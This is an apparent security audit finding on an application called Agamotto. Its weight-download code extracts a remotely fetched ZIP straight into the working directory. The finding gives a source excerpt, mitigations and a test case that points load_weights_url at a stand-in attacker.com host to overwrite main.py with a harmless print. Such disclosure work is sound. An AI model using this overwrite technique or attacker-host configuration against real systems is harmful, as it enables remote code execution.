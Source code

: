 - Vulnerability Name: ZIP Extraction Vulnerability via Malicious `load_weights_url`

- Description:
  1. An attacker with the ability to modify the `agamotto.yaml` configuration file changes the `model.load_weights_url` parameter to point to a malicious ZIP archive hosted on an attacker-controlled server.
  2. The Agamotto application starts or reloads its configuration from the modified `agamotto.yaml`.
  3. During the application startup, the `Agamotto.download_weights()` function is executed. This function retrieves the `load_weights_url` from the configuration.
  4. The application constructs a download URL using the attacker-specified `model.load_weights_url`, `model.load_weights_version`, and `load_weights_dir`.
  5. The application then downloads the ZIP archive from the malicious URL using `keras.utils.get_file()`.
  6. After downloading, the application extracts the contents of the ZIP archive to the current working directory (`./`) using `zipfile.ZipFile.extractall("./")`.
  7. If the malicious ZIP archive is crafted to contain files that overwrite existing application files (e.g., `main.py`, `agamotto/agamotto.py`, libraries, configuration files) or introduce new malicious files (e.g., scripts, executables) into locations where they can be executed or accessed by the application, the attacker can compromise the application.

- Impact:
  - Remote Code Execution: By overwriting application code with malicious code, the attacker can achieve arbitrary code execution within the context of the Agamotto application.
  - Application Compromise: The attacker can compromise the integrity and functionality of the Agamotto application by replacing legitimate components with malicious ones, potentially leading to data breaches, unauthorized access, or denial of service.

- Vulnerability Rank: High

- Currently Implemented Mitigations:
  - None. The provided code does not implement any input validation, integrity checks, or secure extraction mechanisms for the downloaded weights.

- Missing Mitigations:
  - Input validation for `model.load_weights_url`: Implement a whitelist of allowed, trusted domains or URLs for `model.load_weights_url` in `agamotto.yaml`. Alternatively, use a more robust method to verify the source and integrity of the download location.
  - Integrity check for downloaded ZIP file: Before extracting the ZIP archive, implement a mechanism to verify its integrity. This could involve checking a checksum (like SHA256 hash) or a digital signature of the ZIP file against a known trusted value.
  - Secure ZIP extraction: Instead of extracting directly to the application's root directory, extract the ZIP archive to a temporary, isolated directory. Then, carefully copy only the expected weight files to their intended locations, avoiding overwriting any other application files. Consider using secure extraction methods that prevent directory traversal vulnerabilities within ZIP archives.
  - Principle of least privilege: Run the Agamotto application with the minimal necessary permissions. This can limit the impact of a successful ZIP extraction vulnerability by restricting what actions a compromised application can perform on the system.

- Preconditions:
  - The attacker must have the ability to modify the `agamotto.yaml` configuration file. This could be achieved if the configuration file is stored in a publicly accessible location, if there is another vulnerability that allows file modification, or if the attacker can convince an administrator to use a malicious configuration file.
  - The Agamotto application must be configured to download weights (which is the default behavior as per `agamotto.yaml`).

- Source Code Analysis:
  - File: `/code/agamotto/agamotto/agamotto.py`
  ```python
  def download_weights(self):
      """
      Downloading weights for first (or only) executions, it will download, extract and create
      a folder based on agamotto.yaml file.
      """
      url = f"{self._model_load_weights_url}/{self._model_load_weights_version}/{self._load_weights_dir}.zip"
      filename = os.path.join(os.getcwd(), f"{self._load_weights_dir}.zip")
      keras.utils.get_file(filename, url)
      with zipfile.ZipFile(f"{self._load_weights_dir}.zip", "r") as z_fp:
          z_fp.extractall("./")
  ```
  - The `download_weights` function in the `Agamotto` class constructs a URL using configuration parameters `_model_load_weights_url`, `_model_load_weights_version`, and `_load_weights_dir`, all of which are derived from the `agamotto.yaml` configuration file.
  - The function uses `keras.utils.get_file()` to download the ZIP archive from the constructed URL. Critically, it then uses `zipfile.ZipFile.extractall("./")` to extract the downloaded archive directly into the current working directory of the application without any validation or security checks.
  - There is no input validation on `_model_load_weights_url` or any of the related configuration parameters that contribute to the download URL.
  - The use of `extractall("./")` is inherently risky as it extracts all files from the archive to the current directory, which can lead to overwriting existing files if the ZIP archive is maliciously crafted.

- Security Test Case:
  1. **Prepare a malicious ZIP archive:** Create a ZIP file named `malicious_weights.zip`. Inside this ZIP file, create a directory structure that, when extracted to the application's root directory (`/code/agamotto` inside the container, assuming this is the working directory when `download_weights` is called), will overwrite the `agamotto/main.py` file. For example, the ZIP could contain the path `agamotto/main.py` with malicious content. The malicious `agamotto/main.py` can be a simple script that prints "Vulnerable!" and then exits.
  ```python
  # Malicious main.py content (example)
  print("Vulnerable!")
  exit()
  ```
  Zip this modified `main.py` and place it in the path `agamotto/main.py` inside the zip archive.
  2. **Host the malicious ZIP archive:** Set up a simple HTTP server (e.g., using Python's `http.server`) to host the `malicious_weights.zip` file. Let's assume the server is running on `http://attacker.com` and `malicious_weights.zip` is accessible at `http://attacker.com/malicious_weights.zip`.
  3. **Modify `agamotto.yaml`:** Edit the `agamotto.yaml` file located in the `/code/agamotto/` directory of the project to use the malicious URL:
  ```yaml
  model:
    load_weights_url: http://attacker.com
    load_weights_version: .
    load_weights_dir: malicious_weights
  ```
  4. **Run the Agamotto application:** Build and start the Agamotto application using Docker Compose: `docker-compose up --build`.
  5. **Observe the output:** Check the logs of the `agamotto` container. If the vulnerability is successfully exploited, the application's behavior will be altered. In this test case, if `agamotto/main.py` was successfully overwritten with the malicious version, the container logs should show "Vulnerable!" printed to the console, or the application might fail to start or behave unexpectedly because of the replaced `main.py`. If the application prints "Vulnerable!" instead of its normal startup messages, it confirms that code execution was achieved by overwriting `main.py` through the ZIP extraction vulnerability.
